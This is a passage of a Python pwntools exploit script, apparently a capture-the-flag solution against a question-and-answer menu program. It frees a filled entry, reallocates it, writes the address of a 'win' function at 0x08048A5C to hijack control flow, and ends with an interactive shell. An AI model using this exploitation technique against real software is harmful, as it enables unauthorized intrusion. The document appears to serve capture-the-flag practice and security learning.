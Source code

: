 ```
	io.sendline(str(id))
	io_rdy(io)

def io_s(io, id, s):
	print("filling "+str(id)+" with "+s)
	io.sendline("S")
	io.recvuntil("Enter question id: ")
	io.sendline(str(id))
	io.recv(timeout=1)
	io.sendline(s)
	return 0

def io_a(io, id):
	io.sendline("a")
	io.recvuntil("Enter question id: ")
	io.sendline(str(id))
	
	io.recvuntil("I have the answer perhaps: '")
	buf = io.recvuntil("'")
	io_rdy(io)
	return buf

# inclusive
def io_all(io, min, max):
	buf = {}
	for i in range(max-min+1):
		k = i+min
		current = {str(k).zfill(3): io_a(io, k)}
		
		buf.update(current)
	
	j = json.dumps(buf, indent = 2, sort_keys=True)
	return j


maxlen = 23 #fgets, 24-\n = 23

# win	08048A5C	
win = 0x08048A5C
fin = 0
k = 0

io = io_beg()
io_rdy(io)

header("M1")
io_c(io)
io_s(io, 0, "B"*maxlen)
io_d(io, 0)

header("M2")
buf = io_c(io)
assert(buf == 1)

payload = p32(win)

io_s(io, 1, payload)
io.sendline("a")
io.recvuntil("Enter question id: ")
io.sendline(str(id))
io.interactive()
```
